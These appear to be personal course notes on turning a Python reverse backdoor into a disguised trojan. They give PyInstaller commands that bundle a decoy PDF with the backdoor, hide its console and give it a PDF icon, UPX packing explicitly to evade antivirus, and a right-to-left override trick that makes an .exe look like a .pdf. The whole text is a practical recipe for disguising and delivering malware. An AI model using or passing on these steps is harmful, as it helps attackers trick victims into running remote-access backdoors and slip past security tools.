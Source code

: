 ## Embed front files
# create trojan by embedding files in program code -> package front file with evil file
# --add-data embeds a file, after ; put the location where to store the front file - . for default location
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;." --onefile 
--noconsole reverseBackdoor.py
# front file is extracted at run time, need to run it from evil file code.


## Bypass antivirus
Some antiviruses detect exe packaged by pyinstaller as malware, even if they don't have
malicious python code. So use UPX to compress exe files. Download->extract and move upx to "/opt". 
In the upx folder, open terminal and "./upx /root/reverseBackdoor.exe -o compresses_backdoor.exe"

## Change icon
find a relevant icon of high quality (iconfinder.com). 
Convert to .ico extension (https://www.easyicon.net/language.en/covert/).
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;." --onefile 
--noconsole --icon /root/Downloads/pdf.ico reverseBackdoor.py

## Spoof file extension
By default windows does not show extension, unless it is checked in preferences.
Use right-to-left character override to change how the file name is read.
Original name - zaid-fdp.exe
insert character after -
Apparent name - zaid-exe.pdf